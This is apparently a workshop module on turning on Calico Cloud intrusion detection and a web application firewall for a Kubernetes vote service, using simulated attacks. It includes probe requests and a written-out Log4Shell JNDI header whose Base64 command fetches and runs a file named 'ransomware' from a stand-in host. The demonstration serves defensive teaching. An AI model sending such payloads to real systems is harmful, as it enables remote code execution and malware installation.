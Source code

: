 # Module 5 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote-external -o=jsonpath='{.status.loadBalancer.ingress[*].hostname}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

--- 

[:arrow_right: Module 6 - Detect Zero-Day Attacks with Threat Defence](/modules/module-6-threat-defence.md)  <br>

[:arrow_left: Module 4 - Security Guardrails for Network-based Threats](/modules/module-4-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
